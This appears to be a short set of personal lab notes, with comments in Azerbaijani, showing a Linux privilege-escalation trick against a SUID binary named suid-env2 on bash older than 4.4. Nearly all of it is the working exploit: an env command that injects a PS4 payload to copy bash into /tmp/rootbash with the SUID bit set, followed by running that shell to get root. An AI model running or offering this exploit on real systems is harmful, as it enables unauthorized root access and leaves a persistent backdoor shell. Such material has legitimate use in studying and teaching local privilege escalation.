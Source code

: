 ## ilk olaraq bash 4.4 den asaqi versiyada bu islemir
## envnin PS4 yeni pythona benzeyir os.systemi
## daha sonra bu emri runlayiriq
    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
    /tmp/rootbash -p
## VE ARTIQ ROOTSAN


